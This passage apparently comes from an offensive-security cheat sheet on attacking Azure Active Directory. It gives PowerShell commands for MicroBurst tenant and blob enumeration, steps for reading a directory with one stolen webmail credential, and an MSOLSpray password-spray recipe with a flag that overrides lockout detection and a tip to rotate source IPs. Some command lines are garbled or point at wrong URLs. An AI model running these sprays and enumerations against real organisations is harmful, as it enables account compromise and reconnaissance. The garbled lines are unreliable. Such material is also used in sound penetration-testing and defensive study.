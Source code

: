 ```powershell
}
$roleUsers

### Enumeration using Microburst
git clone https://github.com/NetSPI/MicroBurst/blob/master/Get-AzureADDomainInfo.ps1
Import-Module .\MicroBurst.psm1

# Anonymous enumeration
Invoke-EnumerateAzureBlobs -Base company
Invoke-EnumerateAzureSubDomains -base company -verbose

# Authencticated enumeration
Get-AzureADDomainInfo
Get-AzureDomainInfo -folder MicroBurst -VerboseGet-MSOLDomainInfo
Get-MSOLDomainInfo
```


With Microsoft, if you are using any cloud services (Office 365, Exchange Online, etc) with Active Directory (on-prem or in Azure) then an attacker is one credential away from being able to leak your entire Active Directory structure thanks to Azure AD.

1. Authenticate to your webmail portal (i.e. https://webmail.domain.com/)
2. Change your browser URL to: https://azure.microsoft.com/
3. Pick the account from the active sessions
4. Select Azure Active Directory and enjoy!

## Azure AD - Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```

## Azure AD - Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```
